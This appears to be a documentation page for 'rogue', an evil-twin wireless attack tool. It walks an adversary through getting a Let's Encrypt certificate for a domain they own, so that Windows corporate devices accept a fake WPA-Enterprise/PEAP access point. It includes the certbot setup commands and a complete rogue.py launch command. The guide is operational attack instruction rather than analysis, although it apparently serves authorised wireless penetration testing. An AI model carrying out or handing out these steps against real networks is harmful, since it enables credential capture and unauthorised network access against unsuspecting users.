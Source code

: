Using rogue with external certificates for RADIUS identity
==========================================================

By default Wireless Network Profiles (WNPs) that are created on windows corporate devices are instructured to validate the server's identity. Therefore when Rogue presents a self-signed certificate to connecting windows devices, said devices will reject the certificate and the authentication process ends; refer to the [An adversarial perspective of the Windows supplicant settings](https://blog.infamoussyn.com/posts/wifi/2023/04/07/Understanding-PEAP-settings-in-windows.html) article for more in-depth insight into the behaviour. This example guide outlines the highlevels steps for deploying rogue with external certificates to leverage insight outlined in the article, a link to a more in-depth blogpost of the end-to-end advanced evil twin attacks has been provided in the reference list below.



Generating the Let's Encrypt certificate
----------------------------------------

The adversary would have to buy a domain, then create an A record for a machine (such as an EC2 instance). However, assuming that is all done.

Install and configure cert-bot using the below command on the machine:

```bash
sudo apt update --assume-yes; apt install libaugeas0 --assume-yes
sudo python3 -m pip install certbot certbot-apache
sudo ln -s /opt/certbot/bin/certbot /usr/bin/certbot
```

Run the cert-bot client and follow the steps:

```bash
certbot certonly -d rogue.pki.infamoussyn.com
```

Transfer the certificates to the machine operating rogue. 

Launching rogue with the custom certificates
--------------------------------------------

Launch rogue, specifying the paths to the files created by let's encrypt:

```bash
sudo python3 /opt/rogue/rogue.py --preset-profile wifi4 --essid rogue -i wlan0 --auth wpa-enterprise --channel-randomiser --default-eap peap -E all --server-certificate /home/vagrant/fullchain.pem --ca-certificate /home/vagrant/chain.pem --server-private-key /home/vagrant/privkey.pem
```

References
----------

- [An adversarial perspective of the Windows supplicant settings](https://blog.infamoussyn.com/posts/wifi/2023/04/07/Understanding-PEAP-settings-in-windows.html)
- [Cracking WPA2-EAP WLAN perimeters with Evil Twin attacks](https://blog.infamoussyn.com/posts/wifi/2023/02/12/cracking_wpa2-eap_wlan_perimeters_with_evil_twin_attacks.html)
